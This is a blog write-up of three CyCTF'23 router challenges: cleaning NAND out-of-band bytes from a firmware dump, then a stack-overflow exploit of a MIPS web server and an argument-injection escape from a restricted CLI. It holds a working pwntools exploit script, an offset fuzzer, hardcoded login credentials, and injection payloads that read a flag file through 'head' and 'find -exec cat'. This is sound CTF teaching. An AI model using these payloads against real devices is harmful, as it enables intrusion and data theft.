In this blog post, we'll explore three challenges from the "Not Vulnerability Research" category in CyCTF'23, held in Cairo ICT.

I managed to solve the first challenge during the CTF, and solved the remaining two afterwards. Be sure to check out [the official writeup by the author](https://wr3nchsr.github.io/cyctf-low-budget-router-trilogy-writeup/). As of writing this, I haven't read the author's writeup to avoid being influenced by the intended solutions. Instead, I'll guide you through my methodology and approach for solving these three challenges. Expect a long (but fun) ride, so prepare a cup of tea and enjoy the read!

## Challenge 1 - Firmware Dump

The first challenge is under the `forensics` category and It mentions a firmware dump, `SNANDer` and a datasheet, I downloaded the challenge files anyway, and I could find the following file structure:


so, I just went a ran binwalk against the firmware, cuz what's the worst that can happen right?


Running binwalk produced this file system:


It seems like something is very wrong here. For some reason, we have a lot of jffs2 file systems. I tried to grep for the flag using `find -type f -exec strings {} \; | grep cyctf`, but I ended up with a bunch of fake flags that were probably unrelated to the current challenge. I also found nothing in the `/etc` directory, which was mentioned in the challenge description. Therefore, we need to stop being hasty and start doing some actual analysis.

Going back to the files were were provided, we also have `SNANDer-output.txt` which contains the following text:
```
$ SNANDer -d -г fw_dump.bin

SNANDer - Serial Nor/nAND/Eeprom programmeR v.1.7.8b2 by McMCC <mcmcc@mail.ru>

Found programmer device: WinChipHead (WCH) - CH341A
Device revision is 3.0.4
spi_nand_probe: mfr_id = 0xef, dev_id = 0xaa, dev_id_2 = 0x21
Get Status Register 1: 0x81
Get Status Register 2: 0×18
Disable Flash ECC.
Detected SPI NAND Flash: WINBOND W25N01G, Flash Size: 128MB, OOB Size: 64B
READ:
Read addr = 0x0000000000000000, len = 0x0000000008000000
Read 100% [138412032] of [138412032] bytes
```

After careful reading of this text file and a quick google search, It seems to be a log of the command used to dump the firmware and I could arrive at the following conculsions:
1. SNANDer is an [EEPROM programmer](https://github.com/McMCCRU/SNANDer)
2. The `-r` flag was used to read a chip's data and save it to the disk
3. The `-d` flag **disabled** the internal ECC of the EEPROM during the process of dumping the chip's data (more on this later)
4. The EEPROM we are currently dealing with is the `WINBOND W25N01G`

### But what is even an EEPROM?

We  could find the [product page](https://www.winbond.com/hq/product/code-storage-flash-memory/qspinand-flash/?__locale=en&partNo=W25N01GV) for the EEPROM, It states and I quote:
> 1Gb Serial NAND Flash Memory with uniform 2KB+64B page size and set Buffer Read Mode as default

So, this is not just a random EEPROM, It's specifically a NAND flash, a type of non volatile memory where the memory cells are arranged in a special way that differ from It's counterpart--The NOR  flash.


For more information about the difference between NAND and NOR flash memory, have a look at this wikipedia page: <https://en.wikipedia.org/wiki/Flash_memory#Distinction_between_NOR_and_NAND_flash>


Another interesting property of EEPROMs is the method of bit erasure. Unlike simply clearing a bit or a word by setting it to zero, you can only work with blocks. The default state of an erased block is all 1's. Therefore, you initially start with all 1's and progressively write zeroes. This detail will be very important later.

### What about the ECC thingy?

Now, that we understand what we are dealing with, we gotta start understanding the purpose of the weird `-d` flag that has something to do with ECC and OOB as mentioned in the help text of SNANDer.


#### Information Theory goes brrrrrrrr

I want to take this chance as an excuse to blaber a little about information theory, In 1948, Claude Shannon published the paper "A Mathematical Theory of Communication" in which he established the foundation of the modern age of computers, in his infamous paper, he defined the basic elements of communication, developed the concept of entropy, and he even coined the term "bit", some say that his work led to all the current developments of what we know today as "Digital Communication" and the Internet of course!

Anyway, enough talk about Shannon, right now, we are going to talk about the simplest error detection algorithm: The Parity Check.

In its simplest form, Parity works by appending a bit to the word we are currently transmitting. This bit is either set to zero or one, depending on the number of 1's in the message. If there is an even number of 1's, we keep the parity bit at 0. If there is an odd number of 1's, we set the parity bit to 1, effectively making the total number of 1's even. Then, at the receiver's end, we take note the parity bit's value then recalculate it. If the result matches the original value of the parity bit, then the message is either intact and free of errors, or it contains more than one error, which the parity bit can never detect.

If you didn't understand the above, It doesn't matter for understanding the rest of the blog and I don't want to spend more time talking about parity, so let's keep going. Error Correction.

Error Correction is the other side of the coin. What if we're not satisfied with merely detecting whether an error occurred? What if we are so greedy that we also want to pinpoint the exact position of that error to correct it? That's where Hamming Codes come in to save the day.

The Hamming code is an algorithm that can not only detect errors but also correct them. It functions similarly to parity checks, but with more than one parity bit in action, which intersect each other. 3Blue1Brown and Ben Eater have two awesome videos about [the concept of Hamming codes](https://www.youtube.com/watch?v=X8jsijhllIA) and [how they can be implemented in hardware](https://www.youtube.com/watch?v=h0jloehRKas), both of which are very worth watching.

Error correction is not limited to only hamming codes, there are better and more modern ECC or Error Correcting Codes such as the Reed--Solomon codes (which are used in DVDs) or BCH Codes, and the list goes on.

In conclusion, Error Correcting Codes (ECC) are generally implemented by having some redundant data besides the actual message or data that we are sending, this spare data helps us to detect and even correct errors at the receiving end.

Going back to our challenge, the `-d` flag mentions after disabling the internal ECC of chip (which is implemented in the hardware of the chip itself by the way!), It will write one page, then the "OOB" section. OOB is short for Out-Of-Bounds and It is often used when referring to the the redundant data that is used for error correction. Some datasheets refer to OOB data as the "Spare Area", but you get the idea.

Since I want to get a better understanding of the memory page structure of this chip, I navigated the datasheet which had a section containing this block diagram of the page layout.


It becomes clear that the memory page constitutes of 2048 bytes of main memory proceeded by 64 bytes of "Spare Area" which is another word for the OOB area, but we know that ECC is disabled, so I decided to have a look at the firmware dump we were provided using a hex editor.


We notice that right around the 2048 bytes offset, we have a bunch of 1s until byte number 2112, which is exactly 64 bytes. Aha, that's the culprit.


### Solution

I wrote a small Python script that will just loop over the pages and write only 2048 bytes, effectively skipping the ECC junk.

```python
def extract_data_pages(input_file_path, output_file_path):
    PAGE_SIZE = 2048 
    OOB_SIZE = 64    ## Size of the OOB area of a page

    with open(input_file_path, 'rb') as input_file, open(output_file_path, 'wb') as output_file:
        while True:
            data = input_file.read(PAGE_SIZE)
            if not data:
                break

            output_file.write(data)
            input_file.seek(OOB_SIZE, 1)

input_firmware = "./fw_dump.bin"
output_firmware = "./new_fw.bin"
extract_data_pages(input_firmware, output_firmware)
```

and running it, we get a new fille `new_fw.bin, which, upon extracting its contents using binwalk, we can now see only two file jffs2 file systems:


and by going to any of these filesystems, we can find an interesting file in the `/etc` directory.


and by recursively extracting Its contents, we can read the flag.


## Challenge 2 - Management Portal


The second challenge has the `pwn` tag which is very interesting, It also seems to depend on the filesystem that we extracted from the first challenge, so let's first try to connect to the remote instance that we were provided.

It turns out to be an endpoint for the router's admin panel.


I did some testing with larger input, and we got some reaction.


I wasn't sure If that is a segmentation fault and we can already crash the binary or this is intended behavior that is handeled on the backend's side, so let's keep diging more.

I went to our extracted jffs2 filesystem and decided to check the `/bin` directory for any interesting binaries.


All of the files were symlinks to `busybox` except these 4 binaries:
- busybox
- httpd
- clid
- init

Since we are dealing with a web server here, it makes the most sense to investigate the `httpd` binary, so I ran it against the `file` command.


We can see that we are dealing here with a MIPS 32-bit binary that is big endian (hence the MSB executable part), so, let's get going with reverse engineering it in IDA.

I started by checking the functions that we have.


We could see functions for handling the HTTP routes for the web server, so we are probably interested in the function responsible for the login's POST request, which is called `POSTLogin`.


We can see some hardcoded credentials in the decompilation, so I just went ahead and tried to log in using these credentials. I got in, so I started testing the functionality of the website.


Besides getting rickrolled, the functionality was pretty boring. All routes are just GET requests that we probably can't interact with, and since I know this is probably a binary exploitation challenge, the most exciting thing for me was the login page. This page takes input from the user and sends it to the server using a POST request. This is probably the only endpoint that can take our input, so if there is a vulnerability, this is more likely to be the place to trigger it.

After digging deeper into the code, I found the following function:


I went inside the jffs2 filesystem and found the referenced flag.txt file. However It contained a fake flag so this probably means that this function should be our target, there was no xref to this function so If we can get the server to execute it somehow on the remote instance, we will have our flag.


One of the biggest consequences of a buffer overflow vulnerability is **Control Flow Hijacking**, which can allow us to run any code we want in the binary, this is achieved by overwriting the saved return address on the stack with another function address that we want to execute instead.


Going back to the `POSTLogin` function, I did more reverse engineering of the code and renamed some variables, so, we end up with this decompilation:


It can be summarized as follows:
1. The variable `payload_length` stores the length of our POST request payload, which is whatever comes after the HTTP headers
2. If our payload is greater than 80, the sever will just return an `Internal Server Error`, just as we saw in our earlier test, so this means that we haven't crashed the server yet, the error was normal behavior that is getting handled by the server.
3. The function then checks the content of the payload to ensure it contains the correct username and password. If the payload is too short or does not contain the correct credentials, the function sets the login flag to 0 and redirects the user to the login page.
4. Oddly enough, the `memcpy` operation copies our payload into a stack buffer named `buf`, and the size of the memcpy is determined by the `content_length` variable. This is a global variable set to the value of the `Content-Length` header.
5. from point 4, we can clearly control the size of the `memcpy` by spoofing the `Content-Length` of the request. This is one vulnerability!

However, I had a big problem: I couldn't really craft a payload greater than 79 characters, and in order to overwrite the return address, I need more than that. This renders the first vulnerability that we found useless (╯°□°)╯︵ ┻━┻

I started staring at the code for hours and hours until something clicked, I found a second vulnerability.

1. The `payload_length` is calculated using `strlen()` which stops at a null terminator!
2. If we can insert a null byte early in our payload, then we can trick `strlen` into thinking our `payload_length` is less than 80, effectively passing that check at line 7.

so, by chaining these two vulnerabilities, we can possibly crash the server! so let's test that locally.

I ran a local instance of the server using `qemu-mips-static`:


Then I used `pwntools` to send a payload that should crash the server.
```python
from pwn import *

io = remote("localhost", 10080)
payload = "POST /login HTTP/1.1\r\n" \
          "Host: localhost:10080\r\n" \
          "Content-Type: application/x-www-form-urlencoded\r\n" \
          f"Content-Length: 200\r\n" \
          "\r\n" \
          f"user=admin&pass=notcomplexjustnotguessable\0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA".encode()

io.send(payload)
```
and voila, we get a crash!


### Exploitation
Now, that we could crash the binary, writing the exploit should be straight forward.

Luckily, a lot of binaries used in embedded systems have most security mitigation disabled, we can confirm this by running checksec on the binary that we have.


And as we expected, we can see PIE is disabled, so this means that there will be no randomization of code addresses.

Now, we already know what function we want to execute, namely, the `readFlag` function, but we have one problem, we still don't know the offset for the return address stored on the stack, so we don't know how much should we overflow before corrupting the saved return address.

Now, I could've went ahead and calculated it like an educated person, but I just wrote a fuzzer that will find me the offset. (this reminds me of this [XKCD](https://xkcd.com/1319/))

here's the code for my fuzzer:
```python
from pwn import *

elf = ELF("./_new_fw.bin.extracted/jffs2-root/bin/httpd")
context.binary = elf.path

def login(offset, content_length=200):
    with remote("localhost", 10080) as io:
        header = (
            "POST /login HTTP/1.1\r\n"
            "Host: localhost:10080\r\n"
            "Content-Type: application/x-www-form-urlencoded\r\n"
            f"Content-Length: {content_length}\r\n\r\n"
        )

        body = (
            "user=admin&pass=notcomplexjustnotguessable\0" +
            "A" * offset +
            p32(elf.sym['readFlag']).decode()
        )

        payload = (header + body).encode() + b"\r\n"

        io.send(payload)

        response = io.clean().replace(b"\r\n", b"\n").decode()
        if "cyctf" in response:
            print(f"Response:\n{response}")
            return False

    return True

def main():
    for i in range(1, 100):
        if not login(i):
            print(f"Offset: {i}")
            break

if __name__ == "__main__":
    main()
```

And the output:



We can easily find the offset in IDA from the stack view. Simply double-click on the stack variable buf, and you will see its offset from the base pointer `var_s0` in hexadecimal next to it. By adding 4 bytes to this value, we can obtain our offset.

`var_s0` is the base pointer and `var_s4` is the return address:


So, we can just run our exploit with the offset `45` against the remote server to get the flag, here's the final exploit:

```python
from pwn import *

elf = ELF("./_new_fw.bin.extracted/jffs2-root/bin/httpd")
context.binary = elf.path

def login(offset=45, content_length=200):
    io = remote("cyctf23-11acfb59ca02-low-budget-router-ma-0.chals.io", 443, ssl=True)
    header = (
        "POST /login HTTP/1.1\r\n"
        "Host: localhost:10080\r\n"
        "Content-Type: application/x-www-form-urlencoded\r\n"
        f"Content-Length: {content_length}\r\n\r\n"
    )

    body = (
        "user=admin&pass=notcomplexjustnotguessable\0" +
        "A" * offset +
        p32(elf.sym['readFlag']).decode()
    )

    payload = (header + body).encode() + b"\r\n"
    io.send(payload)
    resp = io.clean(1).replace(b"\r\n",b"\n").decode()
    io.close()
    return resp

print(login())
```

And, we get the flag!


## Challenge 3 - Management Console




The third challenge has the `rev` tag, so we will probably do even more reversing, sounds fun so let's first start with connecting to the remote instance that we are provided using snicat (which is a clone of netcat by the ctfd team except Its encrypted).


On attempting to log in, It seems that I have to input the correct username and password, so let's start the initial reversing!

If you remember, we found a couple of binaries that were interesting in the `/bin` directory, and one of them was `clid`, this could be a good starting point for us, so I loaded it in IDA and found the main function to be setting up a multi-threaded server that handles incoming client connections through a function called `handleClient`.

So I went ahead to that function and found that it basically checks If a user is authenticated using the `authenticate()` function, Authenticated users are then given an "interactive shell" through the `interactiveShell()` function.


Before checking that `interactiveShell()` function, I decided to check the authentication logic, however, It seems that the logic is implemented in an external function called `doAuthentication()`.


I used readelf to check the library dependencies (If you know a better way to do this in IDA please let me know in the comments)


From the readelf output, I could find two interesting external libraries, `libcli_functions.so` and `libcli_helpers.so` so I went to the `/lib` directory and found them, after loading `libcli_function.so` in IDA, I could find the definition of the `doAuthentication()` function.


Going back to our snicat connection and entering these credentials, I was successfully logged in and found myself in some sort of interactive shell, so I instinctively ran `help` with high hopes, and luckily, I got some help text.


At this point, commands like `readflag` no longer surprise me, but driven by curiosity, I tried to run it anyway, because, as they say, curiosity killed the cat.


I will leave the YouTube link as an exercise for the reader --> <https://www.youtube.com/watch?v=dQw4w9WgXcQo>

I also tested the rest of the commands in the help text of the CLI but could find nothing of interest.


It seems we are locked in some sort of jail, I wasn't really sure on where to go from there, part of me wanted to try escaping that jail and another part thought that this may be a rabbit hole, so I decided to play the sure game and do more reverse engineering and see what we end up with.

I went back to the `clid` binary in IDA and had a look at the implementation of the `interactiveShell()` function, I could find the logic responsible for handling each of the commands in the shell.


and surprisignly, I found two undocumented functions that were not visible in the help text, the first function is `setdiag` (set diagnostics?) and the second one was `head`.

I went to the `libcli_helpers.so` and started digging in their implementation.

### dissecting setdiag()

1. This functions seems to toggle a boolean variable called `diag` in the `.bss` segment.
2. This gloal variable `diag` seems to be referenced in the implementation of `ping`


It seems that the `ping` function will work when we use the `setdiag` command, and the output of the ping command will be saved in `/tmp/ping_log`, so let's confirm this.


We could successfully run the ping command, this seems promising, so I went ahead and started trying command injection as it seems to directly run ping with our argument using the custom function `execCmd()`.


It seemed that there was some handling of command injection in place, so I decided to check the `execCmd()` function which is implemented in `libcli_helpers`.so`

I couldn't find anything of interest in the `execCmd()` function except that it handles command injection, which makes sense.


I decided to have a look at `head()` which is another undocumented function in the interactive shell.

### dissecting head()



This function seems to take two arguments. The second argument is a path to a file within the `/tmp` directory, while the first argument is the number of lines it will print of that file using the `head` linux command, so let's test this out!


I had a feeling that the `ping` command using `tee` to save Its output to `/tmp` is no mere coincidence, and we should somehow use that file with the `head` command to get the flag.

I threw a bunch of stuff at the `head` command but nothing worked, It seemed to only accept files within `/tmp` and the flag should be at `/home/clid/flag.txt` so it was impossible to read the flag using `head` the intended way, but what about an unintended way?

I started trying to inject stuff again. I knew that I couldn't inject commands with the usual `;` or `&&` tricks, so I thought about injecting arguments!

We know that we have control of two arguments within the command: `find /tmp/ -user 1002 -type f -path %s -exec head -n%s \"{}\" \\;`
1. we control the path of the `find` command
2. we control the number of lines printed from the `head` command

I observed that the `head` command is executed only on the output of the `find` command, using the `-exec` argument. This means we are limited to specifying `/tmp/ping_log` as the second argument to ensure `head` executes. Consequently, it seemed logical for me to attempt injection into the first argument, which controls the number of lines fed into the `head` command.

Another thing that I remembered is the fact that `head` works on multiple files like this:


so, we can just specify the number of lines as usual and then add the path for the flag, and I got this payload: `head 3 /home/clid/flag.txt,/tmp/ping_log`


Tadaaa!


While chatting with the author about my solution, It turns out my payload wasn't an inteded solution when he was desining the challenge, he had in mind something like: `head  1",/tmp/ping_log -exec cat /home/clid/flag.txt "` which is also argument injection except he does it on `find` itself and not `head` as we did. Anyway you can check his official writeup in the second paragraph of this page for more details on his solution.


I really enjoyed the three of these challenges, and I could tell how much effort was put into creating them, so props to the author for such unique scenarios!